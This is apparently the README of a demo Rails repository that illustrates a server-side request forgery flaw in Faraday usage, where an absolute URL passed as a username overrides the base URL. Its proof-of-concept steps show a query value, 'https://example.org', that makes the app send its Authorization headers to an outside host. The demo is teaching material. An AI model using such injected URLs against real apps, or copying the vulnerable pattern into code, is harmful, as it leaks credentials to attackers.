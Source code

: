 # README

This is a demo repository to show an SSRF vulnerability in a Rails app.

Specifically, this app uses Faraday as an http client. And it creates a connection object with a safe base url.

However, it is still vulnerable to SSRF as providing an absolute URL will override the base url.

Here is the vulnerable code:
https://github.com/Cohen-Carlisle/demo-ssrf-fix/blob/d58582849914ce7fa095abb9de88280360205dc9/app/controllers/ssrf_controller.rb#L3-L5

## Proof of SSRF vulnerability:
* Start a server with `bundle exec rails server`.
* Open a browser and navigate to http://localhost:3000?username=Cohen-Carlisle.
* Observe that the app made a `GET` to `https://api.github.com/users/Cohen-Carlisle` and got a response.
* Change the `username` to `https://example.org` (http://localhost:3000?username=https://example.org).
* Observe that the app made a `GET` to `https://example.org` and included Authorization headers.
* Oops! You just send your credentials to an attacker.

